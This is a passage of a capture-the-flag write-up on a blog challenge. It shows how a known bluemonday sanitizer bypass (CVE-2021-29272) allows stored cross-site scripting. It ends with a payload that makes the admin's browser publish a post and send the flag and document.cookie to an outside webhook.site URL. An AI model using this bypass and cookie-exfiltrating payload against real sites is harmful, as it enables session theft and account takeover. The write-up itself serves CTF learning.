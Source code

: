 ![](images/adminPanel.png)

We are maybe able to insert XSS inside our posts. Since the admin account will open newly created posts, this would allow us to grab his token and get the flag.

Trying this we find something out, our input is sanitized. There must be a way.
Searching the sourcecode we find out that there is a sanitizer

```go{linenos=false}
var (
	Sanitizer = bluemonday.UGCPolicy()
)
```

After searching the web we find this CVE: [CVE-2021-29272](https://kb.prohacktive.io/en/index.php?action=detail&id=CVE-2021-29272) and its related [Github Issue](https://github.com/microcosm-cc/bluemonday/issues/111)

Apparently due to the use of `.ToLower`, cyrillic characters would be converted back allowing you to bypass the sanitizer.
Attached is the following POC

```html{linenos=false}
<scrİpt>&lt;script&gt;alert(document.domain)&lt;/script&gt;
```

## Getting Admin and the flag

Lets create a post with the following payload.

```html{linenos=false}
<scrİpt>&lt;script&gt;fetch("/admin/posts/publish", { method: "POST" }).then(res => res.text()).then(flag => fetch("https://webhook.site/REDACTED?" + document.cookie, {
method: "POST",
body: flag,
}))&lt;/script&gt;
```
